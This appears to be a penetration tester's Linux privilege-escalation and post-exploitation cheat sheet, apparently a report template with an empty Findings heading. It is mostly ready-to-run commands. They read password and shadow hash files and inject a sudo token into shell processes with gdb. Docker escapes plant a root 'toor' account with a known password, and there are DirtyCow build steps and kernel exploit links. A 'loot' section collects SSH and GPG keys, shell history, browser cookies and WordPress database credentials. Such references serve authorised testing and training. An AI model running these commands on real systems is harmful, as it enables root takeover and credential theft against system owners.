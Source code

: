 
Hostname `hostname`

## PrivEsc Relevant

##### Users
```bash
cat /etc/passwd
```
##### Hashes
```bash
cat /etc/shadow && cat /etc/security/opasswd
```
`unshadow passwd shadow > unshadowed.txt` 
##### Privileges
```bash
sudo -l
```
Search programs on https://gtfobins.github.io/. Is LD_PRELOAD set?!
##### Working Dir for attack
```bash
find / -writable -type d 2>/dev/null
```
##### SysInfo
```bash
cat /etc/*-release; uname -a
```
##### Files with SUID-Bit set
```bash
find / -perm -u=s -type f 2>/dev/null
```
##### Network interfaces
```bash
ip a
```
##### Gateways
```bash
/sbin/route
```
##### Logged-In Users
```bash
w
```
##### Running processes
```bash
ps aux
```
##### Installed programs
```bash
dpkg -l
```
##### Scheduled tasks
```bash
ls -lah /etc/cron* ; cat /etc/crontab; grep "CRON" /var/log/syslog
```
Are any of those or the scripts within writeable?
##### Sudo injection
This requires a running process with valid sudo token and your uid. But it's easy to test/try.
```bash
echo | sudo -S >/dev/null 2>&1 && cp activate_sudo_token /tmp/ && chmod +x activate_sudo_token && for pid in $(pgrep '^(ash|ksh|csh|dash|bash|zsh|tcsh|sh)$' -u "$(id -u)" | grep -v "^$$\$"); do echo "Injecting process $pid -> "$(cat "/proc/$pid/comm") && echo 'call system("echo | sudo -S /tmp/activate_sudo_token /var/lib/sudo/ts/* >/dev/null 2>&1")' | gdb -q -n -p "$pid" >/dev/null 2>&1; done
```
[Source](https://github.com/nongiach/sudo_inject/blob/master/exploit.sh)
##### Abusing Docker
```bash
docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```
or
```bash
docker run -it --rm -v $PWD:/mnt bash
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd # toor:password
```
##### Abusing Tmux
Requires read access to `/tmp/tmux-1000/default`
```bash
export TMUX=/tmp/tmux-1000/default,1234,0 && tmux ls
```
##### Well-Known Kernel Exploits ([Source](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#kernel-exploits))
- Linux Kernel 5.8 < 5.16.11 -> [DirtyPipe](https://www.exploit-db.com/exploits/50808)
- Linux Kernel <= 3.19.0-73.8 -> DirtyCow
	```
	# make dirtycow stable
	echo 0 > /proc/sys/vm/dirty_writeback_centisecs
	g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil # or use https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
	```
- Linux Kernel <= 2.6.36-rc8 -> [RDS](https://www.exploit-db.com/exploits/15285/)
- Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04) -> [Full Nelson](https://www.exploit-db.com/exploits/15704/)
- Linux Kernel 2.6.39 < 3.2.2 -> [Mempodipper](https://www.exploit-db.com/exploits/18411)
## Loot for later
##### GPG
```bash
ls /home/*/.gpg/
```
##### SSH
```bash
ls /home/*/.ssh/
```
##### History files
```bash
cat /home/*/.*_history
```
##### Home folder
```bash
ls -al /home/*/; ls -al /root/
```

```bash
find / -user $(id -un) -type f 2>/dev/null | grep -Ev "^/sys|^/run|^/proc"
```
##### Test for X-Server
```bash
pidof X
```
Is there e.g. a browser we can grab cookies/passwords from?
##### Extract Cookies
```
pasco index.dat
```
##### Firewall settings
```bash
sudo iptables -S
```
##### Listeners/Connections
```bash
netstat -anp
```
##### Git
```bash
find / -name ".git" 2>/dev/null (cd to the directories and do "git config --list" )
```
##### Mounted Volumes
```bash
cat /etc/fstab; mount; /bin/lsblk
```
##### Drivers
```bash
lsmod
```

```bash
/sbin/modinfo [module]
```
##### If Wordpress:
	Look at `wp-config.php`. It contains hardcoded MySQL credentials


# Findings
